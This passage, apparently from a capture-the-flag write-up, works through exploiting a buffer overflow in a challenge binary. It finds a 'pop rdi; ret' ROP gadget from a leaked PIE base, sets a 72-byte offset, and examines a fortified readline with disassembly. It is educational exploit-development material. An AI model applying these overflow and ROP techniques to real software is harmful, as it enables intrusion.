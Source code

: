 ```text
0x0000000000000ad3 : pop rdi ; ret
```

Using the binary base we leaked earlier, we can find the address of `pop rdi; ret`:

```python
POP_RDI = pie + 0xad3
```

Lastly, the offset we use will be `72`, as the buffer size is `64`, then the base pointer afterwards is `8` bytes long

Now we should everything we need

### More fortify problems

However, this on it's own isn't going to work, as in `readline`, there's an extra protection protecting against buffer overflow. What it does is check the length of the input against the buffer size that was assigned. If we enter a input of length 63, we are fine, however once we go 64 and above, we'll get this error:

```text
$ python -c "print 'a' * 64" | ./chall
[FATAL] Buffer Overflow
```

So, we're going to have to get a bit creative here. Lets disassemble `readline`, and see what;'s going on:

```text
│ │           0x00000a30      55             push rbp                                                                                                      │ 0x00000a20    1 10           entry.init0                                     │
│ │           0x00000a31      53             push rbx                                                                                                      │ 0x00000ae0    1 2            sym.__libc_csu_fini                             │
│ │           0x00000a32      31c0           xor eax, eax                                                                                                  │ 0x00000ae4    1 9            sym._fini                                       │
│ │           0x00000a34      4889fb         mov rbx, rdi                ; arg1                                                                            │ 0x00000a30    3 59           sym.readline                                    │
│ │           0x00000a37      89f5           mov ebp, esi                ; arg2                                                                            │ 0x00000810    1 6            sym.imp.gets                                    │
│ │           0x00000a39      4883ec08       sub rsp, 8                                                                                                    │ 0x000007d0    1 6            sym.imp.strlen                                  │
│ │           0x00000a3d      e8cefdffff     call sym.imp.gets           ;[1] ; char *gets(char *s)                                                        │ 0x000007c0    1 6            sym.imp.puts                                    │
│ │           0x00000a42      4889df         mov rdi, rbx                ; const char *s                                                                   │ 0x000007b0    1 6            sym.imp._exit                                   │
│ │           0x00000a45      e886fdffff     call sym.imp.strlen         ;[2] ; size_t strlen(const char *s)                                               │ 0x00000a70    4 101          sym.__libc_csu_init                             │
│ │           0x00000a4a      39e8           cmp eax, ebp                                                                                                  │ 0x00000850    6 134  -> 127  main                                            │
│ │       ┌─< 0x00000a4c      7d07           jge 0xa55                                                                                                     │ 0x00000788    3 23           sym._init                                       │
│ │       │   0x00000a4e      4883c408       add rsp, 8                                                                                                    │ 0x000008e0    1 60           entry.init1                                     │
```